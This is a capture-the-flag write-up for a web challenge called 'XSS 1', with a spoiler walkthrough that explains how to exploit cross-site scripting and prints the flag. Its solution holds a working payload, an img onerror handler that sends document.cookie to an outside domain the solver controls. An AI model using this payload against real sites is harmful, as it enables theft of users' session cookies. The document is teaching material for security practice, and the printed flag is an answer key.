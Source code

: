 # XSS 1

## Authors

- Daniel Cooper

## Category

- web

## Description

So I've heard there are a lot of 6841 enjoyers out there. Try this XSS challenge out for size!

[https://xss1.ctf.secso.cc/](https://xss1.ctf.secso.cc/)

Author: @ssparrow

## Hints

## Files

## Solution

<details>
<summary>Spoiler</summary>

### Idea

An xss challenge.

### Walkthrough

1. We can send an `<img>` tag with an onerror attribute to get an XSS. Find out more about XSS here: [link](https://portswigger.net/web-security/cross-site-scripting)
2. Using a payload like:

```
<img src=x onerror=fetch(`//stacksparrow4.xyz/${document.cookie}`)>
```

(where stacksparrow4.xyz is a domain you control)
we can report the page to the admin and get the flag.

### Flag

`SPOOKTF{so_1_h34rd_you_can_s3t_html..}`

</details>
